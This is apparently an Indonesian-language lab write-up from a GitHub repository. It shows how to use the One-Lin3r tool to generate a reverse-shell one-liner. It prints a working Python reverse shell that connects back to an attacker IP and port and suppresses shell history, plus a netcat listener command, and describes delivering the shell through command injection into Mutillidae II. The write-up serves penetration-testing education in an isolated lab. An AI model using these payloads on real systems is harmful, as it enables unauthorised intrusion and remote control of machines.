



# Reverse Shell: ONE-LIN3R

Hai Friend,

Sedikit menulis tentang pengalaman baru saya explorasi reverse shell. Salah satu teknik umum yang digunakan pada saat pengujian penetrasi (Penetration Testing) setelah masuk ke sistem melalui celah web aplikasi dengan membuat sebuah backdoor network (koneksi balik) melalui command yang bisa dijalankan di operating system.

Reverse shell sendiri perlu memiliki banyak pengetahuan tentang teknologi yang terpasang di sisi server, seperti misalnya Windows dan Linux, dan bahasa yang digunakan seperti (Bash, Powershell, nc, socat, perl, Python, PHP, Ruby,dll). 

Pentester sendiri harus berhati-hati dalam menjalankan atau memulai backdoor, karena aktivitas ini bisa terdeteksi oleh defender tools canggih dan tercatat di dalam log sebagai tindakan intrusi. Beberapa tantangan menurut saya sangat sulit untuk menghapal kode dalam membuat backdoor dari beberapa lintas teknologi itu sendiri. Oleh karena itu diperlukan referensi dari repositori publik atau memanfaatkan tools generator yang tersedia.

Disini saya mengambil salah satu referensi tools bernama one-lin3r https://github.com/D4Vinci/One-Lin3r/ aplikasi ini dapat menghasilkan  script satu baris untuk memulai reverse shell seperti gambar dibawah ini yang sertakan.


---

## Topologi lab

| Peran | Keterangan | IP |
| :--- | :--- | :--- |
| **Attacker** | Mesin penyerang (Kali Linux) | `10.10.10.149` |
| **Target Web** | Server Ubuntu menjalankan Mutillidae | `10.10.10.2` |

**Topologi Jaringan:**

```text
+-------------------------------------------------+
|            VMware - 10.10.10.0/24               |
|                                                 |
|  +---------------+      +-------------------+   |
|  |  Kali Linux   |      |   Ubuntu Server   |   |
|  |  [ATTACKER]   |      |   [TARGET WEB]    |   |
|  |  nc Listener  | <--- |   Reverse Shell   |   |
|  |  10.10.10.149 |      |   10.10.10.2      |   |
|  |  Port: 9001   |      |   Mutillidae      |   |
|  +---------------+      +-------------------+   |
+-------------------------------------------------+

```
---

Menghasilkan script backdoor cukup memilih dari daftar seperti langkah-langkah dibawah ini.

1. Ketik OneLiner > use linux/python/socket_reverse
2. Persiapan attacker station TARGET:PORT (10.10.10.149:9001) 
3. Kemudian lihat output sebagai gambar di bawah ini



Secara penuh bisa dilakukan pada notepad/vscode untuk merubah alamat yang ingin di koneksikan pada target.
```text
python3 -c 'import os,pty,socket;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.149",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv("HISTFILE","/dev/null");pty.spawn("/bin/bash");s.clos
```
---

Pada station attacker sendiri perlu membuka terminal dengan netcat server serta cukup menjalankan dibawah ini.
```text
nc -lvp 9001
```

Mari kita coba reverse shell diatas menggunakan command injection pada aplikasi Mutillidae II.



Bisa diperiksa reverse shell telah terkoneksi pada station milik attacker.



Disini dapat di lihat bahwa koneksi telah berhasil dibangun melalui Netcat.

Aplikasi sederhana seperti one-lin3r ini sangat membantu selama proses penetration testing, dengan menempatkan station penyerang alamat ip dan port koneksi yang bisa di tentukan, kemudian satu script baris yang di craft (dibuat). Kita dapat menyalin secara langsung ke web aplikasi mutillidae untuk memulai koneksi.

**Referensi:**

* **Artikel Asli (Rio Asmara):** [Reverse Shell – One-Lin3r](https://rioasmara.com/2018/12/17/reverse-shell-one-lin3r/)
* **Tools Github:** [D4Vinci/One-Lin3r](https://github.com/D4Vinci/One-Lin3r)
* **lastesthackingnews** [What is a reverse shell?](https://latesthackingnews.com/2026/06/16/what-is-a-reverse-shell/)
* **offseckit** [reverse shell cheatsheet](https://offseckit.com/blog/reverse-shell-cheat-sheet)
* **PayloadAllTheThings:** [Reverse Shell Cheat Sheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/)

Terima kasih sudah mampir dan membaca tulisan ini! 

Jika ada pertanyaan, feedback, atau hal yang ingin didiskusikan terkait reverse shell, silakan open discussion atau buka Issue di repository ini. Oh iya, jangan lupa tinggalkan ⭐ (Star) ya! Hahaha.